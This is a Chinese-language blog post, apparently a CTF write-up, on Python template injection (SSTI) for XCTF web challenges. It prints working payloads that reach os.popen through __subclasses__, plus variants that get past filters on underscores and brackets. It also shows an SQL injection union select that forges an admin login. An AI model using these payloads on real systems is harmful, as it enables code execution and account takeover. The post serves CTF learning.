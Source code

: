 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - Web
  - SSTI
---
```

# 最基础的概念
这道题没有任何限制，just讲一下基本步骤
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了） 
  
这道题什么都没有过滤  
  
ls的payload:
```
{% raw %}{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}{% endraw %}
```
注意，在基类中，os所在的`site._Printer`不一定是第几个，这个题是第71个罢了。subclass可以看到所有类，慢慢找  
  
而且名字也不一定叫`site._Printer`，但长得差不多，比如校赛中的就叫`_sitebuiltins._Printer`，关键字就这么几个  
  
每个指令的作用：
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
`ls`查看的是当前目录，`ls /`查看的是根目录  
最后用`'cat fl4g'`读取文件
# 过滤了_ \[] ‘’ “”
XCTF mine1_1    
如果只过滤`[]`的话，payload长这样：
```
{% raw %}{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read(){% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 过滤了{% raw %}{{{% endraw %}
两个大括号连着一起会被检测，但是一个大括号莫得事  
所以我们可以用`{% assign openTag = '{%' %}{{ openTag }}print()%}`来代替
# 过滤了.  and神一样的注入点
首先是一个sql注入，提示`login as admin`（wechall？梦开始的地方？）  
  
用户名输入`admin`密码随意，会返回登录页面，用户名随便会500  
  
  当输入`admin' union select 1,2,3,4 --`时会返回登陆页面（再次吐槽我矿ctf，order by被过滤，而且只有到4才成功，这真是运气），证明闭合了sql查询，没有登录成功，说明验证不是下面这个形式的：`select * from table where username=? and password=?`
  
  之后猜到（没错，猜到，我矿ctf的传统）分离验证并加了md5，并且密码字段是第三个  
  ```sql
  username=test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  ```
  登录成功，并看到了/info页面，改动info可以看到回显
  ![找到注入点](https://raw.githubusercontent.com/Cranberrycookies/cranberrycookies.github.io/master/assets/images/SSTI/%E6%89%BE%E5%88%B0%E6%B3%A8%E5%85%A5%E7%82%B9.png)
  我们这时候直接在后面改为`{% raw %}{{}}{% endraw %}`会被检测
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
  
这CTF打的，我渗透我自己  
解决办法{% assign openTag = '{%' %}
```
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```
{% raw %}{% assign openTag = '{%' %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}{% endraw %}
```
打`{% raw %}{{ openTag }} raw %}{% endraw %}`的时候差点又忘了刚学的`{{ openTag }} raw %}`，吐了吐了
